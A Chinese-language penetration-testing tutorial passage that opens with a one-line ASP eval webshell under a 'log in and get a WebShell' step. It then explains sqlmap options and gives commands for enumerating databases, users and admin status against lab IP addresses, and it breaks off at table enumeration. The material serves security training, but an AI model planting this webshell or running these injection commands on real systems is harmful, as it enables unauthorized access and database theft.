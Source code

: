 ## **第八步，登录系统并获取WebShell**

`<%eval request('Nana')%>`

# 二、SQLMAP使用
## 参数介绍和示例

`-r`：万能参数，主要针对post注入，但是任何其他请求方法都是可以的，但这个参数用的最多
```
sqlmap.py -r c:\2.txt
```
`-u`：只针对get请求方法的注入
```
sqlmap.py -u http://192.168.0.15/sql.php?id=1
```
`--level=LEVEL`:执行测试的等级（1-5,默认为1），使用`-level`参数且数值>=2时候会检查cookie里面的参数，当>=3的时候将检查`user-agent`和`Referer`
```
sqlmap.py -r c:\2.txt --level 3
```
`--risk=RISK`:执行测试的风险（0-3，默认为1），默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试
```
sqlmap.py -r c:\2.txt --level 3 --risk 3
```
`v`:显示详细信息的意思，ERBOSE信息级别：0-6（缺省默认1），其值具体含义：“0”只显示Python错误以及严重的信息；“1”同时显示基本信息和警告信息（默认）；“2”同时显示debug信息：“3”同时显示注入的payload；“4”同时显示HTTP请求；“5”同时显示HTTP响应头；“6”同时显示HTTP响应页面；如果想看到sqlmap发送的测试payload最好的等级就是3，设置为5的话，可以看到http响应信息，比较详细
```
sqlmap.py -r c:\2.txt --level 3 --risk 3-v 3
```
`p`:针对某一个参数进行注入，当我们发现注入点的时候，比如网址`http://192.168.203.141/sql.php?id=1`只有一个参数id,而当有些网址有很多参数，那么我们可以针对指定的参数进行注入
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -p id
```
`--threads`：线程数，如果想要sqlmap跑的更快，可以更改这个线程数的值，默认为10
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -p id --threads 20
```
`-batch-smart`:智能判断测试，自行寻找注入点进行测试,能趴到好多数据，如果想结束指令的执行`ctrl+c`，这个智能指令，会将所有数据库全部扒一遍，并且会将每一步的信息和数据全部给我们保存下来，在sqlmap的output文件夹下面
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -batch-smart
```
## 注入获取数据的相关参数
```
--dbs:会获取所有的数据库。默认情况下sqlmap会自动的探测web应用后端的数据库类型：MySQL、Orcacle,PostgreSQL,MicrosoftSQL,Server,Microsoft Access,SQLite,Firebird,Sybase,SAPMaxDB,DB2
--current-user:大多数数据库中可检测到数据库管理系统当前用户
--current-db:当前连接数据库名
--is-dba:判断当前的用户是否为管理
--users:列出数据库所有所有用户
```
以网址`http://192.168.203.143/sql.php?id=1`来走一般完整注入过程
```
http://192.168.203.143/sql.php?id=1 --dbs #会获取所有的数据库
http://192.168.203.143/sql.php?id=1 --current-user #显示当前用户
http://192.168.203.143/sql.php?id=1 --current-db #当前连接数据库名
http://192.168.203.143/sql.php?id=1 --is-dba #判断当前的用户是否为管理
http://192.168.203.143/sql.php?id=1 --users #列出数据库所有所有用户
```
然后按照下面的几个参数来获取细节数据。
**`-tables`获取表名**：-D是指定某个数据库，如果不加-D参数，那么会将所有数据库的所有表获取出来，最好指定数据库名，这样精准快速一些
```
```